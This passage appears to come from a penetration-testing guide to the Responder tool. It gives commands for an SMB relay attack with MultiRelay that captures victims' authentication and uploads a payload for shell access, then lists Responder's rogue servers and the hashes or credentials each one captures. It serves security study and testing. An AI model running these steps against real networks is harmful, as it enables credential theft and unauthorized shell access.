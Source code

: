 4. Verify target has SMB signing disabled:
   ```bash
   nmap -p445 --script=smb-security-mode <target_ip>
   ```

**Steps**:
1. Disable HTTP and SMB servers in Responder config:
   - Edit `/usr/share/responder/Responder.conf`
   - Set `HTTP = Off` and `SMB = Off`

2. Start MultiRelay:
   ```bash
   cd /usr/share/responder/tools
   python3 MultiRelay.py -t <target_ip> -u ALL
   ```

3. Start Responder:
   ```bash
   responder -I eth0
   ```

4. When a victim attempts to access a non-existent share, MultiRelay:
   - Receives the authentication attempt
   - Forwards it to the target system
   - Uploads and executes a payload to gain shell access

**Why it works**: Authentication relay attacks use legitimate credentials from one source and forward them to authenticate to another system.

## Responder's Servers

Responder runs multiple rogue servers simultaneously to handle different types of authentication attempts:

### SMB Server
- **Purpose**: Capture authentication attempts to SMB shares
- **Default Port**: TCP 445
- **Usage**: Primary method for LLMNR/NBT-NS poisoning
- **Data Captured**: NTLM authentication hashes

### HTTP/HTTPS Servers
- **Purpose**: Handle web-based authentication and WPAD requests
- **Default Ports**: TCP 80/443
- **Usage**: WPAD attacks, capturing basic auth credentials
- **Data Captured**: NTLM hashes or cleartext credentials

### DNS Server
- **Purpose**: Respond to DNS queries when using DHCP poisoning
- **Default Port**: UDP 53
- **Usage**: DHCP-DNS poisoning attacks
- **Data Captured**: Redirects traffic to other rogue servers

### FTP Server
- **Purpose**: Capture FTP authentication attempts
- **Default Port**: TCP 21
- **Usage**: When victims attempt to connect via FTP
- **Data Captured**: NTLM hashes or cleartext credentials if using basic auth
